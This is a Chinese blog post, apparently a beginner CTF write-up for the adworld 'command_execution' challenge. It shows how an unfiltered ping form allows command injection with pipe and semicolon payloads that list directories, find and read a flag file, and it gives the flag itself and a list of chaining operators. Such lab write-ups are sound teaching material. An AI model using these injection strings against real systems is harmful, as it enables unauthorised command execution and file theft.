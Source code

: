 ```yaml
---
title: CTF攻防世界入门题单WriteUP-adworld-10
date: 2024-11-19
tags:
 - CTF
 - adworld
 - WriteUP
categories:
 - 随笔 Essay 
isShowComments: true
publish: true









---
```


<Boxx/>

根据hello-ctf项目的推荐，使用“攻防世界”的Web方向入门题单，我的第10题

[[toc]]

- 题单【[传送门](https://adworld.xctf.org.cn/challenges/problem-set-index?id=25)】
- 官方WriteUP视频【[传送门](https://www.bilibili.com/video/BV1rz4y137dF/)】

| 题目编号 | 题目名称          | 题目方向 | 难度 |
| -------- | ----------------- | -------- | ---- |
| GFSJ0484 | command_execution | Web      | 2    |

<!-- more -->

# 题目10：  command_execution

### 题目描述：小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。

### 考点1：Linux基础

### 考点2： 熟悉     |     的作用（命令拼接）

### 解题思路1：使用命令拼接找到flag相关文件

> 题目描述中提到的WAF
>
> ‌**WAF是Web Application Firewall的缩写，即Web应用防护系统。**‌它是一种专门为Web应用提供保护的产品，通过执行一系列针对HTTP/HTTPS的安全策略来防止恶意攻击
>
> WAF的工作原理是通过规则匹配来执行防御动作，例如IP和URI黑白名单、DDoS防护、请求与响应过滤等功能。WAF可以部署在应用层，看到应用层的报文内容，从而实现更深入和细致的审核和过滤。
>
> WAF的应用场景非常广泛，适用于金融、电商、O2O、互联网+、游戏、政府、保险等行业，主要用于保护各类网站的Web应用安全。用户可以通过购买云服务或部署开源项目如ModSecurity来使用WAF。
进入靶场，我们尝试输入127.0.0.1并点击ping按钮

![image-20241119215338499](/img/essay/image-20241119215338499.png)

根据题目描述的提示，这里没有写waf，并且我们根据Linux基础得知，Linux系统中，是可以同时执行两条命令的，比如分号“;”，我们拿如下命令举个例子：

```shell
ping -c 3 127.0.0.1 ; ls
```

![image-20241119220217702](/img/essay/image-20241119220217702.png)

这里我们可以看到是先执行了ping命令，后执行了ls命令。而如果我们不想执行前一句命令，只执行后一句命令，我们可以使用管道符号，也就是	“|”	。

```
ping -c 3 127.0.0.1 | ls
```

![image-20241119220444748](/img/essay/image-20241119220444748.png)

由此作为理论支撑，我们可以在刚才的网页尝试使用命令拼接的方式来执行我们想要的命令。

```shell
ping -c 3 127.0.0.1|ls
index.php
```
我们此时可以直接查看根目录，甚至不需要写前面的ip地址。
```shell
ping -c 3 |ls /
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
run.sh
sbin
srv
sys
tmp
usr
var
```

一般情况下，可以直接找/home目录下有没有我们的目标文件，如果没有的话，可以使用命令来查找文件。

```
ping -c 3 127.0.0.1 | find / -name "flag.txt"
/home/flag.txt
```

然后我们用cat命令去查看flag.txt文件的内容，即可得到flag。

```
ping -c 3 |cat /home/flag.txt
cyberpeace{ee296471d2544681c19c1ec9bd4a24c5}
```

> 掌握有关命令执行的知识 windows 或 linux 下: 
>
> command1 && command2 先执行 command1，如果为真，再执行 command2 
>
> command1 | command2 只执行 command2 
>
> command1 & command2 先执行 command2 后执行 command1 
>
> command1 || command2 先执行 command1，如果为假，再执行 command2

